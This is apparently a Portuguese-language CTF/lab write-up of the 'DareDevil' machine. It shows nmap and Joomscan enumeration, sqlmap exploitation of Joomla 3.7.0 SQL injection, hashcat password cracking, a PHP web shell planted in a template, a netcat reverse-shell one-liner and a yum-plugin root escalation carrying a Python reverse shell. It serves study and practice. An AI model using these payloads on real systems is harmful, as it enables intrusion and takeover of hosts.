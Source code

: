 EHPT - DareDevil

# EHPT - DareDevil

## Enumeração

### Scan inicial

- Full NMAP scan TCP

```
# Nmap 7.80 scan initiated Sun Jun 21 13:13:41 2020 as: nmap -sC -sV -oA quick 172.16.0.129
Nmap scan report for 172.16.0.129
Host is up (0.65s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 4a:9f:3f:71:3e:d0:a3:81:5b:54:04:14:54:b4:e6:0a (RSA)
|   256 33:4b:af:35:6e:1a:c0:f9:73:d4:9f:29:fa:a2:35:af (ECDSA)
|_  256 1a:a0:ed:a2:2a:c7:ee:4c:47:ef:1b:80:7a:de:dc:a0 (ED25519)
80/tcp   open   http       Apache httpd 2.4.37 ((centos))
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Home
443/tcp  closed https
9090/tcp closed zeus-admin

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 13:15:01 2020 -- 1 IP address (1 host up) scanned in 80.23 seconds
```

### 80/TCP - HTTP

- Analisando a porta 80/TCP, notado que existe um serviço HTTP em execução com o serviço de CMS Joomla

- Para enumerção utilizado script Joomscan que lista, dentre outras informações, qual a versão do CMS utilizada

```
                                                                                                                                                                                    [46/46]
    ____  _____  _____  __  __  ___   ___    __    _  _ 
    (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)           
                                
    --=[OWASP JoomScan                                                                        
    +---++---==[Version : 0.0.7                                                               
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge             
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP
                                                
Processing http://172.16.0.129 ...             
                                                
                                                
                                                
[+] FireWall Detector                          
[++] Firewall not detected     
                                                
[+] Detecting Joomla Version                   
[+ Joomla 3.7.0         
```



## Exploração

## CVE-2017-8917

- Após execução do Joomscan,  identificado que a versão em uso é a 3.7.0, a qual possui uma vulnerabilidade de SQL Injection

```
dcruz@kali:/dcruz/ehpt/daredevil/scan$ searchsploit joomla 3.7.0
------------------------------------------------------------ ---------------------------------
  Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                  | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripti | php/webapps/43488.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```
URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

available databases [5]:
[*] information_schema
[*] joomla_db
[*] joomla_DB
[*] mysql
[*] performance_schema

Database: joomla_DB                         
Table: s62u1_users                        
[1 entry]                                
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| murdock  | $2y$10$cPtYaw48tjJUxlhiQKZsFuPROWSKkExNm8KlGapSUWd3x7IGtA57u |
+----------+--------------------------------------------------------------+

Table: bak_#__users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| murdock  | $2y$10$Mi96NMozkzN9U3J/yOwZ/eBY3Pi8P5c5f2eTafxFylU/oW8d56v9G |
+----------+--------------------------------------------------------------+
```

- Utilizando o SQLmap, listado o username e hash de senha do usuário, o qual foi possível quebrar utilizando o hashcat conforme comandos abaixo

```
hashcat -m3200 hash /usr/shared/wordlists/rockyou --force

hashcat -m3200 hash --show
$2y$10$Mi96NMozkzN9U3J/yOwZ/eBY3Pi8P5c5f2eTafxFylU/oW8d56v9G:letmein
$2y$10$cPtYaw48tjJUxlhiQKZsFuPROWSKkExNm8KlGapSUWd3x7IGtA57u:letmein
```

- Com a senha do adminitrador murdock, acessado o painel administrativo do joomla e configurado, no lugar da pagina error.php, um shell para execução remota

```php
<?php system($_GET['cmd']);?>
```

- A partir desta pagina, que se encontra no caminho /templates/protostar/error.php foi possível obter execução remota ao passar o comando na variavel get, conforme acima criado

  ![image-20200622181255650](C:\Temp\EHPT\DareDevil.assets\image-20200622181255650.png)

- A partir desta execução, obtido shell reverso enviando o seguinte comando

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.0.128 4443 >/tmp/f
```

- A partir da conta apache, a qual foi a conta com que foi obtido o shell, realizada a enumerção da maquina, iniciando pelas credenciais do banco de dados, porem esta senha nao funcionou para o usuário root

```
public $user = 'root';         
public $password = 'thebigbangtheory';
public $db = 'joomla_db';    
```

- Para enumerar os users da maquina, executado o comando users e o usuário usuário retornado foi o murdock, para o qual foi tentada a senha obtida e houve êxito, obtendo a flag de user

```
[murdock@localhost ~]$ cat user.txt 
0584f2d8a427826209eac4de5a12596a
```

  

## Escalação de Privilégios

- Ao acessar com o usuário murdock, uma vez que se tem a sua senha, executado o comando sudo -l e validado que  mesmo pode executar o comando yum com permissões administrativas

```
[murdock@localhost ~]$ sudo -l
Entradas de Defaults correspondentes a murdock em localhost:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

Usuário murdock pode executar os seguintes comandos em localhost:
    (root) NOPASSWD: /usr/bin/yum
[murdock@localhost ~]$      
```

- Pesquisando no GTFOBins, validado que é possivel escalar utilizando um plugin ou rpm crafted. o seguinte procedimento foi realizado que envia um shell reverso como root

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.0.128",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
EOF

sudo yum -c $TF/x --enableplugin=y
```

- Após este procedimento, obtido flag root

```
sh-4.4#cat root.txt
cat root.txt
54d22dbab9a3f1ed0f82a774daccc0ab
sh-4.4#
```

  